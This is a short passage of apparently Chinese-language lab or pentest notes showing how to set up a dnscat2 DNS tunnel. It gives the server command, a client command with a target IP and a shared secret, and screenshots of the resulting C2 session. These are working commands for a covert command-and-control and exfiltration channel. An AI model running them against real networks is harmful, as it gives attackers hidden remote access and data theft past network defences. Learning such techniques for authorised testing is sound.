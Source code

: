 dns隧道建立：

Server端：

```
ruby dnscat2.rb
```

![image-20230103113050579](../../images//image-20230103113050579.png)

Client:

```
./dnscat --dns server=172.16.0.10,port=53 --secret=035979136671378badb1e042ee821c3e
```

![image-20230103112900868](../../images//image-20230103112900868.png)



Server端会返回信息：New window created

![image-20230103113157346](../../images//image-20230103113157346.png)
